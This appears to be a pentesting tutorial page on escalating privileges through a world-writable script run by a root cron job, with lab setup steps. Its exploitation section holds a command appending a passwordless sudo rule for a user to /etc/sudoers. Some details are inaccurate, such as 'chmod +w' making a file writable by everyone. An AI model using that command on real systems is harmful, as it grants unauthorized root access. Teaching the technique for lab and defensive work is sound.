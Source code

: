 ```yaml
---
title: Misonfigured CRON Jobs
layout: default
parent: Linux Vulnerabilities
grand_parent: Pentesting
nav_order: 3
---
```


# Misonfigured CRON Jobs

## Introduction

Cron jobs in Linux function similarly to scheduled tasks in Windows, allowing users to schedule the execution of scripts or programs at specific times. During the execution of a cron job, the associated script or program runs with root privileges.

However, if the permissions of the script are misconfigured—for example, if the script is modifiable by any user—an attacker could potentially modify the script. In such a scenario, the attacker can introduce malicious instructions, leading to the execution of unauthorized tasks with root permissions whenever the scheduled cron job runs.

## Step-by-Step Guide

### Setup

#### 1. Create the Script

Create your script using a text editor. For example, let's call it `myscript.sh`. Make sure the script has execution permissions.

```bash
touch evil.sh
chmod +x evil.sh
```

#### 2. Edit the Script

Open `evil.sh` with a text editor and add the commands or actions you want the script to perform.

```bash
#!/bin/bash
# Your script commands here
```

#### 3. Modify Permissions

To make the script writable by everyone, use the `chmod` command.

```bash
chmod +w evil.sh
```

**!!!** This is where the vulnerability is introduced. Anyone can edit the cron script to execute additional commands once the cron jobs are launched as root.

#### 4. Set up the Cron Job

Open your crontab file using the following command:

```bash
crontab -e
```

For example, add the following line to execute the script every day at 9 am:

```bash
0 9 * * * /path/to/evil.sh
```

Here is the crontab syntax - each line specifies a command to be run and the time at which it should run:

```
(1)(2)(3)(4)(5) <command to be executed>
    -(1) Minute (0 - 59)
    -(2) Hour (0 - 23)
    -(3) Day (1 - 31)
    -(4) Month (1 - 12)
    -(5) Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)

e.g. 0 9 * * * /path/to/evil.sh
```

Make sure to replace `/path/to/myscript.sh` with the actual path to your script.

#### 5. Save and Exit

Save and exit the crontab file.

- For nano, press `Ctrl + X`, then press `Y` to confirm, and press `Enter`.
- For vim, press `Esc`, then type `:wq`, and press `Enter`.

Now, your cron job is set up to run the script at your chosen time, and the script is writable by everyone.

### Exploitation

Since the script is modifiable by everyone, anyone can add malicious commands on the script which then be executed once the cron job runs.

As discussed, since cron jobs are launched as root, any commands will be lauched as root.

For example, attackers can grant themselves higher privileges by adding themselves as a sudoer (/etc/sudoers) on the `evil.sh` script.

```bash
echo 'notroot ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers
```

## Video Demonstration

[<img src="https://img.youtube.com/vi/RRPRgQd2Krs/hqdefault.jpg"
/>](https://www.youtube.com/embed/RRPRgQd2Krs)

## Reference
https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/
